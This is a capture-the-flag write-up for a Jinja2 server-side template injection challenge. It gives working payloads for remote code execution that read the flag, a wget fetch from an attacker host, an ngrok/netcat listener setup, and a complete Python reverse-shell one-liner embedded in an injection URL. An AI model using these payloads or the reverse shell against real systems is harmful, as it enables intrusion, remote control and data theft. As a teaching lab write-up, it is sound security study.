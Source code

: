 # Super Space Tech Inc

## Challenge Description
Our engineers have found that one of the python web applications have been infiltrated. Try to find what the attackers have hidden!
http://chall.seccomp.xyz:5003/

## Walkthrough
Going to the challenge home page, it shows only a link (Jarvis). This link displays the following text: “Hi, Javis”. Note that the url accepts the parameter “name” and the default input is “Javis”.<br />
![alt text](img/Picture1.png)
![alt text](img/Picture2.png)

<br />The output appears to be printed from a template. This template is as follows:
“Hi, {name}”, where the variable “name” is the url input. 
To verify, we can inject our own input.<br />
![alt text](img/Picture3.png)

<br />Our input is displayed successfully. 

A vulnerability called Server Side Template Injection (SSTI) could be present in this web app.
<br />SSTI is a critical vulnerability as it enables the attacker to inject malicious inputs into a template and execute server side.
<br />Potential threats include unauthorised file disclosure and arbitrary code execution.

The challenge title also gives a hint that it is SSTI (**S**uper **S**pace **T**ech **I**nc).
<br />A simple test to detect SSTI is to perform a mathematical evaluation and verify if the input is rendered and reflected in the output. 
<br />Inserting the input **{{7*7}}** into the url parameter prints the output of **49**, confirming the existence of SSTI.
![alt text](img/Picture4.png)

<br />In order to use the correct payload, we will need to identify the template engine. <br />By injecting an invalid payload, an error will trigger and the engine is identified. <br />However if the error messages are suppressed, we will need to inject language-specific payloads. <br />Fortunately, PortSwigger has a decision tree for us to refer to <br /> https://portswigger.net/research/server-side-template-injection
<br />![alt text](img/Picture5.png)

<br />In this challenge, all of these are unnecessary as the description states it is running a python web server (Jinja2).
<br />SSTI Payloads can be found in **PayloadsAllTheThings** https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

We will use the following payload to execute the **id** command via Remote Code Execution (RCE) in Jinja2 syntax
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<br />The command is executed successfully.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```
![alt text](img/Picture7.png)


<br />List files in the directory using **ls** command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```
![alt text](img/Picture8.png)


<br />The **flag.txt** is discovered in the directory. Obtain the flag using **cat** command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}
```
![alt text](img/Picture9.png)

The flag obtained is **CZ4067{3xp1oiT_sStI}**.<br /><br /><br />


## Taking a step further from REMOTE CODE EXECUTION (RCE)
The implications of a vulnerability leading to a RCE is catastrophic as it gives the attackers the ability to perform arbitrary code execution, including system commands.
<br />Once obtaining RCE, an attacker will typically attempt to gain backdoor access into the victim’s machine to perform more malicious actions. <br />We will demonstrate a simple Backdoor POC for the purpose of educating others on the impacts of RCE.<br /><br />

### Creating our payload
A common method of gaining backdoor access in Linux is to transfer a malicious payload into the victim machine via **curl** or **wget** command. However, it is discovered that neither commands are installed in this machine.

**curl** command to http://google.com
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27curl%20http://google.com%27).read()%20}}
```

<br />**wget** command from attacker machine
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27wget%20http://AttackerIP/payload.exe%27).read()%20}}
```
![alt text](img/Picture10.png)

<br />Fortunately, as this is a Linux machine, it will typically have Python installed. We can use the **socket.connect()** method from Python’s socket library, which establishes a TCP connection to a server. This will be our reverse shell payload.<br /><br />

### Setting up C2 Server and Kali netcat for listening
As the connection is made over the Internet, we will need to set up Port Forwarding in our own network. <br />However, this will cause security issues as our Public IP Address will be disclosed. <br />Thus, we will set up a Command and Control (C2) Server using **ngrok**. <br />Signing up is required and installation can be found in the website: https://ngrok.com/download

Once ngrok is installed in our Kali Linux machine, we run the following command:
```console
$ ngrok tcp <internal port>
```
In this test, the internal port used is **6969**.

<br />The service will start and traffic is now forwarded from ngrok service to our localhost
![alt text](img/Picture11.png)

<br />Next, set up **netcat** to listen for incoming connection
```console
$ nc -lvnp 6969
```
<br />

### Executing reverse shell
The following command will be injected into the Web Server:
```console
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrokIP",externalport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<br />In summary, the Web Server will establish a connection with our C2 Server, before spawning a bash process. <br />In this example, ngrokIP is **0.tcp.ap.ngrok.io** and externalport is **17897**.

This will be the resulting RCE command:
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27python%20-c%20\%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%220.tcp.ap.ngrok.io%22,17897));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)\%27%27).read()%20}
```

<br />In our Kali Linux machine, a shell terminal is opened and we can interact with the Web Server directly.
![alt text](img/Picture12.png)

<br />Having a direct connection to the victim’s machine allows the attacker to proceed with his kill chain. He can perform post-exploitation methods including but not only:
- Enumeration for Privilege Escalation, gaining root access to the machine
- Data Exfiltration
- Persistency in the machine
- Pivoting into exploiting other machines within the network


